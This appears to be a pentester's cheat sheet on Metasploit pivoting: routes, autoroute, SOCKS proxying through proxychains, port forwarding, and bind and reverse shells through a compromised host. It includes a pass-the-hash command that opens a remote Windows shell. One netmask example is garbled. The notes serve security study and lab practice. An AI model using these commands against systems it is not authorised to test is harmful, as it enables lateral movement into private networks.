 # ⭕ Metasploit Pivoting

### <mark style="color:orange;">MANUAL ROUTE</mark>

this method will give the full access to the target IP address like its siting in our lan ( only accessible in metasploit )

```
background the session
route add 10.0.1.0/24 [session id]
```

### <mark style="color:orange;">AUTO ROUTE</mark>

this method will give the full access to the target IP address like its siting in our lan ( only accessible in metasploit )

```
run autoroute -p >>> list active routing tables
run autoroute -s 10.1.1.0 -n 255.255.255.0 >>> netmask is optional
run autoroute -d -s 10.10.10.1  >>> delete autoroute on ip
run autoroute -s 10.10.10.1/24 >>> can use CIDR
```

### <mark style="color:orange;">PROXY</mark>

add a proxy to proxychains.conf and use it inside and outside of metasploit

```
use auxiliary/server/socks_proxy 
set srvport 8080 → set proxy local port
```

add 127.0.0.1 8080 to proxychains and make sure there are no other proxies in the config file:

```
socks4  127.0.0.1  8080
```

now run commands with proxychains prefix

```
proxychains nmap -Pn -sT -sV -p- [target]
proxychains pth-winexe -U windows10/user123//10.0.1.5 cmd.exe
```

### <mark style="color:orange;">PORT FORWARD</mark>

forward only the given remote port to the given local port specifically ( only accessible in msfconsole )

```
portfwd [add | delete | list | flush]  -L [optional local ip] -l [local port] -p [remote port] -r [remote ip]

portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now we can scan our local port 8000 to scan the remote port 80 of the target

### <mark style="color:orange;">PIVOTING BIND SHELL</mark>

usually used when exploiting a machine in the internal network. first we have to do port forwarding to scan the network

```
portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now add a route to target ip in the internal network

```
route -h
route add 10.0.1.5/24 [session number] 
```

now choose your exploit and set the rhost to the target ip in the internal network and run the exploit and remember:

```
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 2552.55.255.0 8)
use auxiliary/server/socks4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```

Another way:

```
background #meterpreter session
use post/windows/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks4a
run #Proxy port 1080 by default
```

{% hint style="warning" %}
ALLWAYS USE A BIND SHELL WHILE PIVOTING
{% endhint %}

if we use a reverse shell the target machine on the internal network wont be able to route back the packets to us

![](<../../.gitbook/assets/image (267).png>)

### <mark style="color:orange;">PIVOTING REVERSE SHELL</mark>

while using a reverse shell with pivoting we have to set the RHOST to target ip in the internal network and set the LHOST to the machine that we have already compromized

```
RHOST >>> internal target
LHOST >>> compromized machine
```

![](<../../.gitbook/assets/image (269).png>)
